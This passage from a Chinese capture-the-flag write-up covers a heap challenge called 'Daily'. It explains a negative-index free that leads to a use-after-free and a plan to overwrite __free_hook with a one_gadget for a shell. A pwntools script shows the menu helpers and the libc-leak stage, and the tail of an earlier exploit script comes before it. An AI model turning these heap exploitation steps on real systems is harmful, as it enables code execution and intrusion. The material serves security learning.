 ```python
leakAndWrite(348,int(gadget[4:6],16))
leakAndWrite(349,int(gadget[2:4],16))
#gdb.attach(p,'''
#        break *0xx555555554C9C
#''')
#gdb.attach(p)
p.interactive()
```



## Pwn2  Daily  

典型的选单程序，漏洞在于remove list指向的堆块的时候没有对idx进行检查，导致其可以为负，从而可以free指定地址的chunk，所以这边存在一个uaf漏洞。

具体利用流程：首先利用free unsorted bin分别获得main_arena、libc基址以及heap的基址，其次，通过heap基址到bss段list之间的距离算出idx，free用户自己分配的fastbin堆块，之后利用edit功能修改其fd为为`__free_hook`指针，最后malloc两次，利用one_gadget填充`__free_hook`块来getshell，这边贴一下脚本。  

```python
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
p=process('./pwn')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf=ELF('./pwn')
def add(leng,content):
    p.recvuntil('Your choice:')    
    p.sendline('2')
    p.recvuntil('Please enter the length of daily:')
    p.sendline(str(leng))
    p.recvuntil('Now you can write you daily')
    p.sendline(str(content))


def dele(idx):
    p.recvuntil('Your choice:')
    p.sendline('4')
    p.recvuntil('Please enter the index of daily:')
    p.sendline(str(idx))

def change(idx,content):
    p.recvuntil('Your choice:')
    p.sendline('3')
    p.recvuntil('Please enter the index of daily:')
    p.sendline(str(idx))
    p.recvuntil('Please enter the new daily')
    p.sendline(str(content))


def show():
    p.recvuntil('Your choice:')
    p.sendline('1')
#Leak
add(0x96,'111')
add(0x96,'222')
add(0x96,'333')
add(0x96,'444')
dele(0)
add(0x96,'1'*7)
show()
p.recvuntil('0 : 1111111\n')
main_arena=u64(p.recv(6).ljust(8,'\x00'))
libc_base=main_arena-0x3c4b78
libc.address=libc_base
success('libc_base:'+hex(libc_base))
```